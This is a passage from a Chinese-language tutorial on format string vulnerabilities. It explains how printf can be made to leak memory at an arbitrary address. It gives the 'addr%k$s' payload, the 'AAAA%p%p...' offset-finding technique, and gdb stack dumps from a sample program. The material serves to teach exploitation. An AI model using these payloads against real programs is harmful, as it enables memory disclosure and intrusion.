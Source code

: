 



##### 泄露任意地址的内存

- 上例中 s 是 main 函数的局部变量，所以读取到的内容在栈上。调用输出函数`printf`时，第一个参数的值其实就是格式化字符串format string的地址
- 当上例`leakmemory.c`的输入为"%s"，可以看到`printf`的栈上参数 1 和 2 均指向`%s`，第一个`%s`指的是`printf`的格式化字符串地址，而第二个`%s`则是格式化字符串的`%s`对应参数。亦即：第二个`%s`被作为参数传递给第一个作为格式化字符串使用的`%s`
```assembly
──────────────────────────────────[ stack ]──── # printf(s); 的栈 # 当上例 leakmemory.c 的输入为"%s"
0xffffccfc│+0x00: 0x080484ce  →  <main+99> add esp, 0x10     ← $esp
0xffffcd00│+0x04: 0xffffcd10  →  0xff007325 ("%s"?) # 0xffffcd10: format string's address # 该地址存储 printf 的格式化字符串的地址
0xffffcd04│+0x08: 0xffffcd10  →  0xff007325 ("%s"?) # char* (address) as format string's 1st parameter # 格式化字符串的第一个参数
0xffffcd08│+0x0c: 0x000000c2
0xffffcd0c│+0x10: 0xf7e8b6bb  →  <handle_intel+107> add esp, 0x10
0xffffcd10│+0x14: 0xff007325 ("%s"?)  ← $eax # string "%s" 0x25=% 0x73=s # 既被用作格式化字符串 也被用作格式化字符串的第一个参数
```

```c
printf("addr%k$s"); // 获取某个指定地址addr的内容的方法
// 假设格式化字符串相对函数调用为第k个参数 addr是个地址，高概率为不可见字符。 // k: 格式化字符串地址相对于 printf 第一个参数来说是第k个参数
```

- `printf("addr%k$s")`**原理**：`printf`的第一个参数为format string的地址，`addr`被存储在format string的开头。用`%k$s`控制`printf`解析对于第一个参数（即 存储format string地址的地址）来说第`k`个参数(即format string)，将其解析为字符串的地址。也就达到了将`addr`视作地址，输出`addr`上内容的目的。



- 确定该格式化字符串为第几个参数的方式：  `[tag]%p%p%p%p%p%p...`     重复某个字符的机器字长来作为tag(32bit ELF下为4byte char)，后面跟上若干`%p`输出栈上的内容，如果内容与tag重复，就有很大把握说明该地址是格式化字符串的地址

```bash
$ ./leakmemory     # [tag]%p%p%p%p%p%p... 方法确定 格式化字符串 是函数的第几个参数
AAAA%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p
00000001.22222222.ffffffff.AAAA%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p
AAAA0xffffd3a00xf7fcb4100x80491890x414141410x702570250x702570250x702570250x702570250x702570250x702570250x702570250x8007025(nil)0xf7ffd000(nil)
```

- `0x41414141`在输出的第五个参数，则为格式化字符串的第4个参数。若输入`%4$s`会造成segmentation fault，是因为尝试将`%4$s`表示的地址`0x73243425`进行解析。vmmap可以查看各个地址段的权限

```assembly
────────── stack ──── # 输入 AAAA%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p 时 # printf(s); 的栈
0xffffd38c│+0x0000: 0x080491e5  →  <main+115> add esp, 0x10      ← $esp
0xffffd390│+0x0004: 0xffffd3a0  →  "AAAA%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p" # 0xffffd3a0 为 format string 的地址
0xffffd394│+0x0008: 0xffffd3a0  →  "AAAA%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p"
0xffffd398│+0x000c: 0xf7fcb410  →  0x080482b8  →  "GLIBC_2.0"
0xffffd39c│+0x0010: 0x08049189  →  <main+23> add ebx, 0x2e77
0xffffd3a0│+0x0014: "AAAA%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p" # format string 所在的地址 # 相对于0xffffd390来说是第 4 个参数
0xffffd3a4│+0x0018: "%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p" .........
```

